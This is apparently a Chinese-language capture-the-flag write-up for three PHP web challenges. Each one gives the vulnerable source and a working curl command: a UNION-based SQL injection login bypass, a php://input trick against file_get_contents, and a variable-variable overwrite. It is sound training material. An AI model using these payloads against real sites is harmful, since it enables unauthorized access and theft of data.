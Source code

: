 
## [SQL注入2](http://4.chinalover.sinaapp.com/web6/index.php)

```php
# Source
if($_POST[user] && $_POST[pass]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = $_POST[user];
  $pass = md5($_POST[pass]);
  $query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
  if (($query[pw]) && (!strcasecmp($pass, $query[pw]))) {
      echo "<p>Logged in! Key: ntcf{**************} </p>";
  }
  else {
    echo("<p>Log in failure!</p>");
  }
}
```
让第一个字句返回结果为空，然后才能用上第二个字句的结果；类似于编程语言中逻辑运算符的求值策略，short circuit evaluation
```shell
curl http://4.chinalover.sinaapp.com/web6/index.php -X POST -d 'user=1%27+union+select+md5%28%2725252%27%29+--+m&pass=25252'
```


## [file_get_contents](http://chinalover.sinaapp.com/web23/)

```html
# Source
<!--$file = $_GET['file'];
if(@file_get_contents($file) == "meizijiu"){
    echo $nctf;
}-->
```
php scheme `input` 从 `_POST` 读取内容：
```shell
curl http://chinalover.sinaapp.com/web23/?file=php://input -X POST -d 'meizijiu'
```

## [变量覆盖](http://chinalover.sinaapp.com/web24/)

响应里面的注释有提示
```html
<!--foreach($_GET as $key => $value){  
        $$key = $value;  
}  
if($name == "meizijiu233"){
    echo $flag;
}-->
```
PHP的可变变量：
```shell
curl http://chinalover.sinaapp.com/web24/?name=meizijiu233
```
